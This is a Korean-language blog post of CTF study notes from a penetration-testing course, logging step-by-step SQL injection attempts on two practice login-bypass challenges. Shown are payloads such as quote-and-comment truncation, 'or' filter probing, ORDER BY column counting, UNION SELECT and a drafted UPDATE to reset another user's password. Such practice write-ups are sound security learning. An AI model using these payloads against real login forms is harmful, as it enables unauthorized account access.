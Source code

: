 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB]
---
```


# Login Bypass 3
1. 
id: doldol
pw: dol1234
-> login.php에서 index.php로 302
-> 서버측에서 웹페이지 이동시켜준다
2. 
id: doldol' and '1' = '1
pw: dol1234
-> O
-> sql injection 가능하다
-> query에서 괄호가 안 쓰였어
3. 
id: doldol' or '1' = '1
pw: dol1234
-> X
-> or 필터링이 되어 있는 걸까요?
4. 
id: doldolor
pw: dol1234
-> X
-> 'or' 필터링 X
5. 
id: doldol or
pw: dol1234
-> X
-> ' or' 필터링 X
6. 
id: doldol or 
pw: dol1234
-> X
-> ' or ' 필터링 X
7. 
id: doldolor '1' = '1
pw: dol1234
-> X
-> "or '1' = '1" 필터링 X
8. 
id: doldol'or'1'='1
pw: dol1234
-> X
-> 띄어쓰기 관련도 아닌가봐요
9. 
id: doldol'and'1'='1
pw: dol1234
-> O
-> or이랑 관련이 있는 건데...
10. 
id: doldol'or'1'='1'#
pw: dol1234
-> X
11. 
id: doldol'#
pw: dol1234
-> O
12. 
id: doldol'#
pw: asdf
-> X
-> 식별, 인증 분리 or 줄을 새로 넘겼거나
13. 
id: doldol' order by 1 #
pw: dol1234
-> O
14. 
id: doldol' order by 1, 2 #
pw: dol1234
-> O
13. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column은 ID, PW 두 개만 있네요
14. 
id: doldol' union select 1, 2 #
pw: dol1234
-> O
-> union은 안 막혀있네요
-> 근데 data를 볼 수 있는 곳이 없잖아요
15. 
id: doldol' union select database(), 2 #
pw: dol1234
-> O
16. 
id: doldol
pw: dol1234'and'1'='1
-> X
-> if input_pw == DB['pw']: 통과
17.
UPDATE sqli_1 SET UserId = 'normaltic3', Password = 'asdf' where UserId = 'normaltic3';
-> table name을 몰라
-> 비밀번호를 바꿀 수 없어

# Login Bypass 4
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-10.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' = '1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
-> X
-> 줄바꿈을 했거나
-> 식별과 인증을 분리했거나
5. 
id: doldol' or '1' = '1
pw: asdf
-> 식별과 인증을 분리했네
    -> normaltic4의 비밀번호를 바꾸거나
        -> update: table과 column 이름 필요
        update [table] set [col1] = val1, ... where condition;
    -> normaltic4의 비밀번호를 확인하거나
        -> union: 모든 결과값을 확인할 수 있어야 함
-> 여기도 column이 name일까?
6. 
id: doldol' and name = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> column이 name이네?
-> 그러면 column 개수도 똑같나?
7. 
id: doldol' order by 1, 2, 3, 4, 5, 6 #
pw: dol1234
-> X
8. 
id: doldol' order by 1, 2 #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
9. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column 개수가 3개네
-> 그러면 딱 id랑 pw만 있네
10. 
id: doldol' and Password = 'dol1234
pw: dol1234
-> x
11. 
id: doldol' and pass = 'dol1234
pw: dol1234
-> x
12. 
id: doldol|normaltic4
pw: dol1234
-> X
-> 정규식에서 |가 or을 의미한다고 해서 해봤는데 안되네
13. 
id: doldol' union select 1, 2' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 데이터를 볼 수가 없네
14. 
알고 있는 정보를 정리해 보자
1. 식별, 인증 분리 로직
2. column은 2개 -> id, pw
3. doldol/dol1234, normaltic4/?
select * from table where id = id
if db_pw = input_pw:
    통과
15. 
id: doldol' and UserId = 'doldol' #
pw: dol1234
-> x
16. 
id: doldol' and userId = 'doldol' #
pw: dol1234
-> x
17. 
id: doldol' and userid = 'doldol' #
pw: dol1234
-> x
18. 
id: doldol' and id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
19. 
id: doldol' or id = 'normaltic4' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id는 normaltic4, pw는 doldol꺼 차용해서 로그인할 수 있을 줄 알았는데 doldol씨네
-> 순서 차이?
20. 
id: normaltic4' or id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id랑 pw가 같은 계정으로 로그인되나봐
select * from table where id = id
if db_pw = input_pw:
    통과한 아이디로 로그인
21. 
id: normaltic4'
pw: ' or '1' = '1
-> x
-> 역시나 안 되고
22. 
id: doldol
pw: dol1234' and pw = 'dol1234' #
-> X
23. 
id: doldol' and pw = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and pass = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and UserPass = 'dol1234' #
pw: dol1234
-> x
-> pw, passwd, password, pass, hash
24. 
select * from table where id = id;
update table set pw = '1234' where id = 'normaltic4' #
if db_pw = input_pw:
    통과

-> union 값을 넣어줄 장소를 마련해줄 수는 없을까?